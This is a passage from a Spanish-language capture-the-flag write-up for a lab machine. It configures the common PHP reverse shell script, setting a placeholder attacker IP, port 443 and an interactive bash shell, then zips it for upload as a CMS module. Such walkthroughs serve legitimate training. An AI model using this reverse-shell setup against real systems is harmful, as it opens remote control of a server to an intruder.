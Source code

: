 Una vez que lo descargues, vamos a modificarlo para agregar nuestra IP, el puerto y cambiar la shell:
```bash
set_time_limit (0);
$VERSION = "1.0";
$ip = 'Tu_IP';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;
```

Vamos a comprimir la **Reverse Shell** con la herramienta **zip**:
```bash
zip monkey.zip php-reverse-shell.php
  adding: php-reverse-shell.php (deflated 59%)
```

Hacemos el mismo proceso para cargar el **archivo ZIP** como módulo:

<p align="center">
<img src="/assets/images/THL-writeup-statue/Captura15.png">
</p>

Una vez cargado, podremos ver nuestro módulo en la ruta `/data/module`:

